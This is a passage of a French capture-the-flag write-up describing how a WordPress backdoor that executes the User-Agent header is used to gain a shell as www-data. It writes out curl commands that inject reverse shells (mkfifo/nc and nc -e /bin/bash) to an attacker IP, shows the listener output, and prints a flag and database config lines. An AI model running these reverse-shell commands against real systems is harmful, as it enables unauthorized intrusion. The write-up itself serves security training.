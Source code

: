 On voit ici qu'une backdoor tente d'exécuter ce qui est reçu comme User-Agent dans les entêtes HTTP.  

La machine a été un peu récalcitrante à me donner un shell, Wget passait mais l'exécution de la backdoor non, bizarre mais peu importe j'ai utilisé un reverse shell liste [chez Pentest Monkey](https://web.archive.org/web/20190215143410/http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).  

```bash
curl -A "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.254.0.29 9999 >/tmp/f" http://10.1.1.38/blog/wp-login.php
```

En réalité la version de *netcat* présente ne dispose pas de l'option -e mais c'était possible de régler le problème avec le binaire *nc.traditional* lui aussi présent :  

```bash
curl -A "nc.traditional -e /bin/bash 10.254.0.29 9999" http://10.1.1.38/blog/wp-login.php
```

On obtient un shell en tant que *www-data* :  

```plain
$ ncat -l -p 9999 -v
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::9999
Ncat: Listening on 0.0.0.0:9999
Ncat: Connection from 10.1.1.38.
Ncat: Connection from 10.1.1.38:33406.
/bin/sh: 0: can't access tty; job control turned off
$ python -c "import pty;pty.spawn('/bin/bash')"
www-data@contra:/var/www/html/blog$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

S'ensuit une énumération classique. Je commence toujours par regarder les utilisateurs présents sur le système et leurs groupes.  

Dans notre cas un utilisateur *bill* fait partie du groupe *sudo*. On peut lire le flag dans son dossier personnel (*7a50dcf6959e01f42097b051e88c9554*). L'utilisateur ne dispose pas de fichiers à lui en dehors de son */home/bill* et il n'y a pas de mention particulères sous */etc*.  

Level up
--------

Puisque l'on est débarqué dans le dossier de Wordpress autant fouiller un peu.  

```php
/** The name of the database for WordPress */
define('DB_NAME', 'wordpress');

/** MySQL database username */
define('DB_USER', 'username');

/** MySQL database password */
define('DB_PASSWORD', 'password');

/** MySQL hostname */
define('DB_HOST', 'localhost');
```
